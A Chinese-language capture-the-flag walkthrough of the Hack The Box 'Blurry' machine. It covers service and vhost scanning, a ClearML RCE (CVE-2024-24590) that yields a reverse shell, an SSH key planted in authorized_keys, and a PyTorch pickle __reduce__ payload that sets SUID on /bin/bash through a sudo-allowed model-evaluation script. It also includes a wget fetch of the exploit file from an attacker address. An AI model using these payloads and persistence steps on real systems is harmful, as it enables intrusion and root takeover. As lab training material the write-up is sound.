

服务
```
┌──(root㉿kali)-[~/htb/Blurry]
└─# nmap -Pn -sV 10.10.11.19  
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-11 05:46 EDT
Nmap scan report for 10.10.11.19
Host is up (0.51s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.03 seconds

```


vhost爆破
```
┌──(root㉿kali)-[~]
└─# ffuf -w /usr/share/wordlists/SecLists-2023.2/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.blurry.htb" -u http://blurry.htb -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://blurry.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists-2023.2/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.blurry.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

app                     [Status: 200, Size: 13327, Words: 382, Lines: 29, Duration: 319ms]
files                   [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 789ms]
chat                    [Status: 200, Size: 218733, Words: 12692, Lines: 449, Duration: 424ms]

```

写host
```
echo "10.10.11.19 blurry.htb" >> /etc/hosts
echo "10.10.11.19 app.blurry.htb" >> /etc/hosts
echo "10.10.11.19 api.blurry.htb" >> /etc/hosts
echo "10.10.11.19 files.blurry.htb" >> /etc/hosts
echo "10.10.11.19 chat.blurry.htb" >> /etc/hosts
```


使用[CVE-2024-24590](https://github.com/HexDoesRandomShit/ClearML-vulnerability-exploit-RCE-2024-CVE-2024-24590-)

根据指示生成凭据


```
api { 
    web_server: http://app.blurry.htb
    api_server: http://api.blurry.htb
    files_server: http://files.blurry.htb
    credentials {
        "access_key" = "X2KEGNWGP9F0C3USSJTB"
        "secret_key"  = "m3ZQSd0E8bYcSqeiQHZPH1anOJIWRU1QNLWeFsZVdNqsCu3iZ9"
    }
}
```


在本地初始化配置
```
└─# pip install clearml  
└─# clearml-init             
ClearML SDK setup process

Please create new clearml credentials through the settings page in your `clearml-server` web app (e.g. http://localhost:8080//settings/workspace-configuration) 
Or create a free account at https://app.clear.ml/settings/workspace-configuration

In settings page, press "Create new credentials", then press "Copy to clipboard".

Paste copied configuration here:
api { 
    web_server: http://app.blurry.htb
    api_server: http://api.blurry.htb
    files_server: http://files.blurry.htb
    credentials {
        "access_key" = "YY964YEOQ6IL80GJMYDK"
        "secret_key"  = "Wz4iuc3Np8sdWfWhL0XmYn8XwjFrwY2HrhW09vMopCOgTHdDp7"
    }
}
Detected credentials key="YY964YEOQ6IL80GJMYDK" secret="Wz4i***"

ClearML Hosts configuration:
Web App: http://app.blurry.htb
API: http://api.blurry.htb
File Store: http://files.blurry.htb

Verifying credentials ...
Credentials verified!

New configuration stored in /root/clearml.conf
ClearML setup completed successfully.

```

这里注意要用已经有的project，不要新建project，妈的试了半天。。

拿到shell



```
┌──(root㉿kali)-[~]
└─# nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.16.28] from (UNKNOWN) [10.10.11.19] 39266
sh: 0: can't access tty; job control turned off
$ id
uid=1000(jippity) gid=1000(jippity) groups=1000(jippity)
$ whoami
jippity
$   

```

# 提权


写公钥进authorized_keys
```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQClSxcx3O6uVYQr3uAnEAzzAtwtzb4nuNnc/JGHkE585Ps0+MmHjj+ZuIC7bAjOwF9SJVHqmoJSemyXvW/GGGruuwXZc6JOMBxLdBb503c06o/MdruDnro8uOmrQFbtpVoQiK2S5RX8+lyQGV2GFhvDdiYhzkTMqvtn3xNiPDZJRXZHAgxvHjXmNUhtogcN7yR9oRbgEKhvYwkuaXsgzGYAiApNmMkMl5nKbOGcLjcO03684/4+xDACmIjwR7sFTIxYqMkt+yBaKM5w+WHTO8y+dn8JEh9OJIGiFdDQeQvlVHJtfSfP7oHQinJmmlwkEiFudej8mqrY16WrnT/v/Ia4rvc6J18GHs1IqF2Vpd5TOUc7iiYrJcANAYVvOSZJhxhURVFVojfhEDS6vuqPGOEkzxvpB6Vom3bBKlDRirhHFIPZ3Qu/Ectwm8RKJiSyxGG9Dv9NzqA/hwnXZn9GrzYQnsdoVCRSG31IN5R/lHkavwJ96/YWqeotts+qrKc+cV0= root@kali" >> ~/.ssh/authorized_keys
```

特权
```
jippity@blurry:~$ sudo -l
sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth

```

evaluate_model
```
cat /usr/bin/evaluate_model
#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.

if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
fi

MODEL_FILE="$1"
TEMP_DIR="/models/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"  

/usr/bin/mkdir -p "$TEMP_DIR"

file_type=$(/usr/bin/file --brief "$MODEL_FILE")

# Extract based on file type
if [[ "$file_type" == *"POSIX tar archive"* ]]; then
    # POSIX tar archive (older PyTorch format)
    /usr/bin/tar -xf "$MODEL_FILE" -C "$TEMP_DIR"
elif [[ "$file_type" == *"Zip archive data"* ]]; then
    # Zip archive (newer PyTorch format)
    /usr/bin/unzip -q "$MODEL_FILE" -d "$TEMP_DIR"
else
    /usr/bin/echo "[!] Unknown or unsupported file format for $MODEL_FILE"
    exit 2
fi

/usr/bin/find "$TEMP_DIR" -type f \( -name "*.pkl" -o -name "pickle" \) -print0 | while IFS= read -r -d $'\0' extracted_pkl; do
    fickling_output=$(/usr/local/bin/fickling -s --json-output /dev/fd/1 "$extracted_pkl")

    if /usr/bin/echo "$fickling_output" | /usr/bin/jq -e 'select(.severity == "OVERTLY_MALICIOUS")' >/dev/null; then
        /usr/bin/echo "[!] Model $MODEL_FILE contains OVERTLY_MALICIOUS components and will be deleted."
        /bin/rm "$MODEL_FILE"
        break
    fi
done

/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"

if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
    
fi

```

会调用/models/evaluate_model.py这个脚本

code review evaluate_model.py

```
jippity@blurry:/models$ cat /models/evaluate_model.py
import torch
import torch.nn as nn
from torchvision import transforms
from torchvision.datasets import CIFAR10
from torch.utils.data import DataLoader, Subset
import numpy as np
import sys


class CustomCNN(nn.Module):
    def __init__(self):
        super(CustomCNN, self).__init__()
        self.conv1 = nn.Conv2d(in_channels=3, out_channels=16, kernel_size=3, padding=1)
        self.conv2 = nn.Conv2d(in_channels=16, out_channels=32, kernel_size=3, padding=1)
        self.pool = nn.MaxPool2d(kernel_size=2, stride=2, padding=0)
        self.fc1 = nn.Linear(in_features=32 * 8 * 8, out_features=128)
        self.fc2 = nn.Linear(in_features=128, out_features=10)
        self.relu = nn.ReLU()

    def forward(self, x):
        x = self.pool(self.relu(self.conv1(x)))
        x = self.pool(self.relu(self.conv2(x)))
        x = x.view(-1, 32 * 8 * 8)
        x = self.relu(self.fc1(x))
        x = self.fc2(x)
        return x


def load_model(model_path):
    model = CustomCNN()
    
    state_dict = torch.load(model_path)
    model.load_state_dict(state_dict)
    
    model.eval()  
    return model

def prepare_dataloader(batch_size=32):
    transform = transforms.Compose([
  transforms.RandomHorizontalFlip(),
  transforms.RandomCrop(32, padding=4),
        transforms.ToTensor(),
        transforms.Normalize(mean=[0.4914, 0.4822, 0.4465], std=[0.2023, 0.1994, 0.2010]),
    ])
    
    dataset = CIFAR10(root='/root/datasets/', train=False, download=False, transform=transform)
    subset = Subset(dataset, indices=np.random.choice(len(dataset), 64, replace=False))
    dataloader = DataLoader(subset, batch_size=batch_size, shuffle=False)
    return dataloader

def evaluate_model(model, dataloader):
    correct = 0
    total = 0
    with torch.no_grad():  
        for images, labels in dataloader:
            outputs = model(images)
            _, predicted = torch.max(outputs.data, 1)
            total += labels.size(0)
            correct += (predicted == labels).sum().item()
    
    accuracy = 100 * correct / total
    print(f'[+] Accuracy of the model on the test dataset: {accuracy:.2f}%')

def main(model_path):
    model = load_model(model_path)
    print("[+] Loaded Model.")
    dataloader = prepare_dataloader()
    print("[+] Dataloader ready. Evaluating model...")
    evaluate_model(model, dataloader)

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python script.py <path_to_model.pth>")
    else:
        model_path = sys.argv[1]  # Path to the .pth file
        main(model_path)

```


参考[Pickle/PyTorch反序列化漏洞](https://cloud.tencent.com/developer/article/2237040)


wget http://10.10.16.7/exp.pth

sudo /usr/bin/evaluate_model /models/*.pth

sudo /usr/bin/evaluate_model /models/exp.pth


```
import torch
import torch.nn as nn
import torch.nn.functional as F
import os

class Net(nn.Module):
    def __init__(self):
        super(Net, self).__init__()
        self.layer1 = nn.Linear(1, 128)
        self.layer2 = nn.Linear(128, 128)
        self.layer3 = nn.Linear(128, 2)

    def forward(self, x):
        x = F.relu(self.layer1(x))
        x = F.relu(self.layer2(x))
        action = self.layer3(x)
        return action

    def __reduce__(self):
        return (os.system, ('chmod u+s /bin/bash',))
if __name__ == '__main__':
    a = Net()
    torch.save(a, '12.pth')		
```

上面代码拿到机器上运行,生成12.pth文件
```
jippity@blurry:~$ python3 exp.py 
jippity@blurry:~$ ls
12.pth  automation  clearml.conf  exp.py  user.txt

```

执行sudo,拿到root
```
jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/12.pth
[+] Model /models/12.pth is considered safe. Processing...
Traceback (most recent call last):
  File "/models/evaluate_model.py", line 76, in <module>
    main(model_path)
  File "/models/evaluate_model.py", line 65, in main
    model = load_model(model_path)
  File "/models/evaluate_model.py", line 33, in load_model
    model.load_state_dict(state_dict)
  File "/usr/local/lib/python3.9/dist-packages/torch/nn/modules/module.py", line 2104, in load_state_dict
    raise TypeError(f"Expected state_dict to be dict-like, got {type(state_dict)}.")
TypeError: Expected state_dict to be dict-like, got <class 'int'>.
jippity@blurry:~$ bash -p
bash-5.1# cat /root/root.txt
cee60aa1d9d..
bash-5.1# 
```